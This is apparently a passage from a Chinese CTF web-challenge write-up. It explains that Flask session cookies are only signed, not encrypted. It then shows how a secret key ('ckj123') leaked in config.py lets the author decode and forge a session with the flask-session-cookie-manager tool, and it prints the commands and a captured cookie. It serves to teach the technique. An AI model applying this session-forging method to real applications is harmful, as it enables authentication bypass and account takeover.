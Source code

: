 >` flask`的`session`是存储在客户端`cookie`中的，而且`flask`仅仅对数据进行了签名。众所周知的是，签名的作用是防篡改，而无法防止被读取。而`flask`并没有提供加密操作，所以其`session`的全部内容都是可以在客户端读取的，这就可能造成一些安全问题。

可以使用脚本对`flask`的`session`进行解密和伪造:

注册一个名为`admin1`的账户并登录,抓包看到当前的`cookie`中的`session`值:

<img src="/images/ctfweb-others/image-20221016213837939.png" alt="image-20221016213837939" style="zoom:67%;" />

可以使用脚本对`session`进行解密:https://github.com/noraj/flask-session-cookie-manager

用法:

```shell
py flask_session_cookie_manager3.py decode -c "session值" -s "key值"
py flask_session_cookie_manager3.py encode -s "key值" -t "我们需要伪造的值"
```

可以在`config.py`中找到`key`的值:`ckj123`

```python
import os
class Config(object):
    SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
    SQLALCHEMY_DATABASE_URI = 'mysql+pymysql://root:adsl1234@db:3306/test'
    SQLALCHEMY_TRACK_MODIFICATIONS = True
```

用脚本: 首先使用`key`对`admin1`登录时的`session`值进行解密

```
E:\CTF工具合集\flask-session-cookie-manager-master\flask-session-cookie-manager-master>py flask_session_cookie_manager3.py decode -c ".eJw9kMFuwjAMhl9lypkD3egFiQNTCmqlJAKljZwLKrSQuDGT6CZoEe--DE2cP_vz__vOdsdL2zs2P9ahbyds5xs2v7O3PZszqT9RGRkAs1RpuFp03mLhAMWH4hVKUyGM5UzybrBYJmpdodAOLeUpkEiFFokYpZe6cNasgjUwSF6QNCuneJwz4ibHTdzNZ5YvZ2CqACZPJR5uYLZB6dMo3qtO0F-GolM8S8W4JdDOS2wQ9HKUVF6B8gV7TNihvxx3319de35VACqC5TZYnaWSCg8EU9Bl1G4GqbNBrGPEdaxGkeMmnq2cWi6eOk_1qX2ZmmlS2n9yrikCVjfkzwmbsJ--vTwfx5Ipe_wCfPRvAQ.Y0wFxw.Mk0P7kqa9AF6MQm6hSJpO1WQFhQ" -s "ckj123"
```
